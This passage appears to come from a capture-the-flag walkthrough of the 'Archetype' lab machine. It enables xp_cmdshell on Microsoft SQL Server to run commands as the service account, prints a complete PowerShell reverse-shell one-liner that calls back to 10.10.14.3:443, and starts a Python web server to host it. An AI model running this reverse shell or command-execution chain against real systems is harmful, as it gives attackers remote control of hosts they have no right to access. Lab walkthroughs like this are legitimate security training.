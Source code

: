 ```sh
SQL> EXEC sp_configure 'Show Advanced Options', 1;
[*] INFO(ARCHETYPE): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> reconfigure;
SQL> sp_configure;
name                                      minimum       maximum   config_value     run_value   

-----------------------------------   -----------   -----------   ------------   -----------   

access check cache bucket count                 0         65536              0             0   
access check cache quota                        0    2147483647              0             0   
Ad Hoc Distributed Queries                      0             1              0             0   

[REDACTED]

user connections                                0         32767              0             0   
user options                                    0         32767              0             0   
xp_cmdshell                                     0             1              1             1   

SQL> EXEC sp_configure 'xp_cmdshell', 1
[*] INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> reconfigure;
SQL> xp_cmdshell "whoami"
output                                                                             

--------------------------------------------------------------------------------   

archetype\sql_svc                                                                  

NULL                                                                               

SQL> 
```

The `whoami` command output reveals that the SQL Server is also running in the context of the user `ARCHETYPE\sql_svc`. However, this account doesn't seem to have administrative privileges on the host.

Let's attempt to get a proper shell, and proceed to further enumerate the system. We can save the PowerShell reverse shell below as `shell.ps1` (adapt the IP address with yours).

```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Next, stand up a mini webserver in order to host the file. We can use Python.

```bash
unknown@kali:/data/tmp$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
